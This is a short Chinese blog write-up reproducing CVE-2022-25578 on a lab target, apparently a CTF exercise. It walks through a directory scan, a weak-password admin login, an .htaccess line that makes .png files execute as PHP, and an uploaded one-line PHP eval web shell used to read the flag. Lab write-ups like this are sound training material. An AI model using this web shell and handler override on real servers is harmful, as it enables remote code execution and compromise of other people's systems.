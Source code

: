 ```yaml
---
title: CVE-2022-25578
subtitle:
date: 2025-03-14T12:16:19+08:00
slug: 0780980
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/57334f4d94c8334a885d95809716428d.png)

访问但是没有文件上传点

![](images/b8e41c4da3306e1ee4cc461c4318c605.png)

扫描目录查看是否有上传处

``` Shell
dirsearch -u "http://eci-2ze15m1vb2h75tqfcloq.cloudeci1.ichunqiu.com/"
```



![](images/c44cc10356471db99223363d3d7e50b0.png)

访问/admin，看到网页

![](images/2c01c959e0a1a35350a02e607aac0c37.png)

弱口令爆破 admin/tao，登陆成功，根据题目提示找到.htaccess文件，进行修改，添加代码使其能够对.png文件用php进行解析

```
AddType application/x-httpd-php .png
```



![](images/d67e01147922d013307c74eda6e5c973.png)

在文章上传找到文件上传处

```
<?php @eval($_POST['t1ng']);?>
```



![](images/dbf28764040eeb350e7e379efe51c71a.png)

找到图片路径，蚁剑连接



![](images/670928c8efc9ad2752807bc18b5370ad.png)

找到flag

![](images/b8e45219a5712ed5f243b4170ae1bd30.png)

